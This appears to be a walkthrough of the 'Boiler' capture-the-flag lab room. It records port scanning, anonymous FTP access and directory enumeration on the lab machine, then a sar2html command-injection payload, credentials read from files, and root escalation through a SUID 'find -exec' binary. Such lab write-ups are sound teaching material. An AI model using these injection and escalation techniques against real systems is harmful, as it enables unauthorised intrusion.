



# Boiler CTF

## Description

Intermediate level CTF

# Questions #1

Intermediate level CTF. Just enumerate, you'll get there.

## Initial Scan

Let's start with a full port Nmap scan. The scan reveals four open ports:
* 21 ftp
* 80 http
* 10000 webmin
* 55007 ssh

~~~
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.86
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## 1.1 - File extension after anon login

Let's start with the ftp service since anonymous login is allowed. There was only one file in there called `.info.txt`. After downloading it, I took a look at its content:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ ftp $IP
Connected to 10.10.253.160.
220 (vsFTPd 3.0.3)
Name (10.10.253.160:user): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .info.txt (74 bytes).
226 Transfer complete.
74 bytes received in 0.00 secs (20.4545 kB/s)
ftp> exit
221 Goodbye.

┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ cat .info.txt  
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
~~~

The message is encrypted with some kind of letter substitution. It is encrypted with ROT13 which you can decrypt it [here](https://rot13.com/).

The message says: `Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`, so it's a dead end.

File extention: `txt`

## 1.2 - What is on the highest port?

We can answer this by looking at the nmap scan result.

Service on the highest port (55007): `SSH`

## 1.3 - What's running on port 10000?

Port scan result.

On port 10000: `webmin`

## 1.4 - Can you exploit the service running on that port? (yay/nay answer)

Let's check this port out:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ curl -s "http://$IP:10000/" | html2text 
****** Error - Document follows ******
This web server is running in SSL mode. Try the URL https://ip-10-10-253-
160.eu-west-1.compute.internal:10000/ instead.
~~~

We get an error which says the web server is running in SSL and we should use `https`. Let's do that:

As you can see, it is an authentication form to webmin, so the answer is no.

Answer: `nay`

## 1.5 - What's CMS can you access?

Let's head to the webpage on port 80. First I checked for `/robots.txt` but none of the directories existed:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ curl -s "http://$IP/robots.txt"  
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
~~~

Let's see what the numbers are about. I used [CyberChef](https://gchq.github.io/CyberChef/) to decode them from decimal and the result was a base64 encoded string and after decoding it again, I got an MD5 hash. Then I used [crackstation](https://crackstation.net/) to crack the hash and I got the word `kidding`. There is no directory under this name so we are trolled again.

The next thing I did was runnig `gobuster` on the webpage:

~~~
└─$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.253.160/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/25 06:54:24 Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 315] [--> http://10.10.253.160/manual/]
/joomla               (Status: 301) [Size: 315] [--> http://10.10.253.160/joomla/]
~~~

In the result, we can see `/joomla` which is the CMS that we are looking for.

CMS: `joomla`

## 1.6 - Keep enumerating, you'll know when you find it.

Let's enumerate `/joomla` directory. I ran `dirsearch` mostly because of the `-e` flag which adds extentions to the directoris:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ dirsearch -u http://$IP/joomla/ -e -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt            2 ⨯

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: -w | HTTP method: GET | Threads: 30 | Wordlist size: 8979

Output File: /home/user/.dirsearch/reports/10.10.253.160/joomla_21-10-25_08-06-30.txt

Error Log: /home/user/.dirsearch/logs/errors-21-10-25_08-06-30.log

Target: http://10.10.253.160/joomla/

[08:06:31] Starting:
[08:06:45] 301 -  322B  - /joomla/_files  ->  http://10.10.253.160/joomla/_files/
[08:06:45] 301 -  321B  - /joomla/_test  ->  http://10.10.253.160/joomla/_test/
[08:06:49] 301 -  329B  - /joomla/administrator  ->  http://10.10.253.160/joomla/administrator/
[08:06:49] 301 -  334B  - /joomla/administrator/logs  ->  http://10.10.253.160/joomla/administrator/logs/
[08:06:52] 301 -  319B  - /joomla/bin  ->  http://10.10.253.160/joomla/bin/
[08:06:52] 301 -  321B  - /joomla/build  ->  http://10.10.253.160/joomla/build/
[08:06:53] 301 -  321B  - /joomla/cache  ->  http://10.10.253.160/joomla/cache/
[08:06:54] 301 -  326B  - /joomla/components  ->  http://10.10.253.160/joomla/components/
[08:07:00] 301 -  322B  - /joomla/images  ->  http://10.10.253.160/joomla/images/
[08:07:00] 301 -  324B  - /joomla/includes  ->  http://10.10.253.160/joomla/includes/
[08:07:00] 303 -    0B  - /joomla/index.php/login/  ->  /joomla/index.php/component/users/?view=login&Itemid=104
[08:07:01] 301 -  328B  - /joomla/installation  ->  http://10.10.253.160/joomla/installation/
[08:07:02] 301 -  324B  - /joomla/language  ->  http://10.10.253.160/joomla/language/
[08:07:02] 301 -  325B  - /joomla/libraries  ->  http://10.10.253.160/joomla/libraries/
[08:07:04] 301 -  321B  - /joomla/media  ->  http://10.10.253.160/joomla/media/
[08:07:04] 301 -  323B  - /joomla/modules  ->  http://10.10.253.160/joomla/modules/
[08:07:08] 301 -  323B  - /joomla/plugins  ->  http://10.10.253.160/joomla/plugins/
[08:07:13] 301 -  325B  - /joomla/templates  ->  http://10.10.253.160/joomla/templates/
[08:07:13] 301 -  321B  - /joomla/tests  ->  http://10.10.253.160/joomla/tests/
[08:07:13] 301 -  319B  - /joomla/tmp  ->  http://10.10.253.160/joomla/tmp/
[08:07:16] 301 -  320B  - /joomla/~www  ->  http://10.10.253.160/joomla/~www/

Task Completed
~~~

We have some directories which are worth taking a look at.

### Dead Ends

Let's go through some of the dead ends first:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ curl -s "http://$IP/joomla/~www/" | html2text
                      ****** Mnope, nothin to see. ******
~~~

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ curl -s "http://$IP/joomla/_files/" | html2text
                  ****** VjJodmNITnBaU0JrWVdsemVRbz0K ******
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ echo "VjJodmNITnBaU0JrWVdsemVRbz0K" | base64 -d | base64 -d
Whopsie daisy
~~~

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ curl -s "http://$IP/joomla/_archive/" | html2text     
                      ****** Mnope, nothin to see. ******
~~~

### Right Path

The only directory that seems useful is `/_test`. When you navigate to this directory, you see `sar2html` in the top. I searched for its vulnerabilities and found [this](https://packetstormsecurity.com/files/153858/Sar2HTML-3.2.1-Remote-Command-Execution.html) post. We can remotely execute commands with the following format:

~~~
http://<URL>/jommla/_test/index.php?plot=;<command>
~~~

## 1.7 - The interesting file name in the folder?

Now that we can execute commands, we can list and read the files. First I listed the files (btw, the outputs are shown in **"Select Host"** dropdown):

There is an intersting file called `log.txt`. Let's see its content:

Finally some good news! We have the credentials for the ssh service: `basterd:superduperp@$$`

Intersting file: `log.txt`

# Questions #2

You can complete this with manual enumeration, but do it as you wish

## 2.1 - Where was the other users pass stored(no extension, just the name)?

Let's connect to the machine via ssh on port 55007. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ ssh basterd@$IP -p 55007
basterd@10.10.253.160's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.

Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ which python      
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
basterd@Vulnerable:~$
~~~

Now let's start enumerating the machine. The first thing I did, was listing the files in our home directory. There is a file called `backup.sh`. This bash script contains the credentials of the other user:

~~~
basterd@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
~~~

~~~bash
basterd@Vulnerable:~$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE

if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
	     echo "Begining copy of" $i  >> $LOG
	     scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
	     echo $i "completed" >> $LOG
		
		if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
		    rm $SOURCE/$i
		    echo $i "removed" >> $LOG
		    echo "####################" >> $LOG
				else
					echo "Copy not complete" >> $LOG
					exit 0
		fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
~~~

* Username: `stoner`
* Password: `superduperp@$$no1knows`

Answer: `backup`

## user.txt

Let's switch to user `stoner` and the user flag can be found in our home directory, in a file called `.secret`:

~~~
basterd@Vulnerable:~$ su stoner
Password: 
stoner@Vulnerable:/home/basterd$ cd
stoner@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret 
You made it till here, well done.
~~~

user.txt: `You made it till here, well done.`

## What did you exploit to get the privileged user?

Now we need to gain root access. I ran `sudo -l` to check my permissions and... :

~~~
stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
~~~

We got trolled again. I decided to find the executable files owned by root with SUID bit set using `find` command:

~~~
stoner@Vulnerable:~$ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 38900 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30112 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 26492 May 15  2019 /bin/umount
-rwsr-xr-x 1 root root 34812 May 15  2019 /bin/mount
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 13960 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-custom
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-pristine
-rwsr-xr-- 1 root messagebus 46436 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 513528 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newgidmap
-r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find       <----------------------
-rwsr-sr-x 1 daemon daemon 50748 Jan 15  2016 /usr/bin/at
-rwsr-xr-x 1 root root 39560 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 74280 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 53128 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 34680 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 159852 Jun 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 18216 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 78012 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newuidmap
~~~

This is bad news, not for us tho! `find` is in the list and we can execute commands using `-exec`. Let's use it.

Answer: `find`

## root.txt

It has SUID bit set, so we can use this to execute commands as root. First I listed the files in `/root` and then I read `root.txt`:

~~~
stoner@Vulnerable:~$ find /root -exec ls /root \;
root.txt
root.txt
stoner@Vulnerable:~$ find /root -exec cat /root/root.txt \;
It wasn't that hard, was it?
It wasn't that hard, was it?
~~~

root.txt: `It wasn't that hard, was it?`

# D0N3! ; )

Thanks to the creator(s) for this annoyingly fun room! : )

Hope you had fun like I did, and learned something!

Have a good one! : )